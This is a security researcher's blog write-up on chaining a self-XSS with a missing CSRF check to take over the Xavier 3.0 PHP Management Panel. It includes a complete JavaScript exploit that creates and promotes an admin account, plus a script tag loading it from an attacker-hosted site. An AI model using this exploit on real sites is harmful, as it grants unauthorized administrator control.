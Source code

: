 ```yaml
---
layout: post
title:	"Xavier 3.0 PHP Management Panel CSRF to XSS to Application Takeover"
date:	2019-07-22 03:00:00
categories:
    - notes
tags:
    - bug_hunting
    - bug_writeup
---
```

<head>
	<title> Xavier 3.0 PHP Management Panel CSRF to XSS to Application Takeover </title>
</head>


# i. Introduction
While hunting around on the application, I found a section where you can create users. After playing around, I noticed that when the registration would fail due to errors in the form such as a invalid username, too short password, etc, the username that you were trying to register would reflect on the error page.

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/fail.png)

I then tried adding an XSS payload to see if the parameter would be sanitized in anyway. To my surprise, the parameter was not sanitized and I was able to trigger an XSS. 

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/xss.png)

However, this would be considered to be a `Self-XSS` which has very low impact as it requires social engineering in order to remotely exploit.


# ii. Chaining CSRF with XSS

Feeling a little defeated, I thought of some ways I could leverage this XSS into something bigger. While doing some more testing, I noticed that the endpoint which is responsible for creating the user did not have any CSRF protection. This gave me an idea to try to chain the Self-XSS with the CSRF to hopefully obtain remote exploitation.

Here is an example of how the request looks like:

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/csrf-payload.png)

~~~
Payload Used: <script>alert(1)</script>
~~~

After converting the request to a CSRF proof of concept, I put it to test:


![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/csrf.gif)

It works, now we are able to remotely exploit a Self-XSS!

Do we stop here? No.


# iii. Application Takeover

Now that we are able to remotely exploit an XSS, what would be the impact? The obvious answer that comes to people's minds is stealing the session. However the application developers were one step ahead, and set the cookies to HTTPOnly. 

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/cookies.png)

The way that the application flow works when creating a new user is:
1. Register a new user
2. Find the user in the user list, click their name to edit their profile
3. Click the "promote to admin" button

If you are thinking, if we have a CSRF, why go through all the trouble of having to execute Javascript. Well according to the application flow, with a CSRF we would only be able to create a registered user. A registered user has the same privileges, if I would've registered on the application myself. Furthermore the endpoint which is in charge of elevating the user's privileges has CSRF protection.

With that in mind, I set off to find a way to be able to takeover the application chaining these two bugs.

I then wrote simple Javascript, when called will create a new user and then promote the user. This is able to bypass SOP, as the request will be called from the application. Furthermore this is also able to bypass the CSRF protection when promoting a user to the administrator as we can create an XMLHTTPRequest to parse the CSRF token and then include it with our subsequent request.

Host the following Javascript on your site:
~~~
var root = "";
var req = new XMLHttpRequest();
var url = root + "/xavier-demo/admin/includes/adminprocess.php";
var params = "user=Hackerman&firstname=Hackerman&lastname=Hackerman&pass=P4ssw0rd&conf_pass=P4ssw0rd& email=Hackerman%40Superman.com&conf_email=Hackerman%40Superman.com&form_submission=admin_registration";
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
var url2 = root + "/xavier-demo/admin/adminuseredit.php?usertoedit=Hackerman";
var regex = /delete-user" value="([^"]*?)"/g;
var req2 = new XMLHttpRequest();
req2.open("GET", url2, false);
req2.send();
var nonce = regex.exec(req2.responseText);
var nonce = nonce[1];
var url3 = root + "/xavier-demo/admin/includes/adminprocess.php";
var params2 = "delete-user="+nonce+"&form_submission=delete_user&usertoedit=Hackerman&button=Promotetoadmin";
req2.open("POST", url3, true);
req2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req2.send(params2);
~~~

This will create a user with the username Hackerman, password: P4ssw0rd with Administrator privileges.

Then use a payload such as:
~~~
<script src="https://your-site.com/xavier.js"></script>
~~~

Create a CSRF proof of concept with the payload above, and host it on your site.

Executing the CSRF:

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/takeover.gif)


So essentially with a Self-XSS and some creative thinking we were able to takeover an application. 


# iv. Conclusion

This was a great experience, and I've learned a lot. Remember when you have one piece of the puzzle, there are always ways to be able to leverage it into something bigger & greater. What normally would be treated as an informational bug, is able to be leveraged into something that can takeover the application.

As always, thank you for reading.

\- mqt

Sources:
~~~
test
~~~

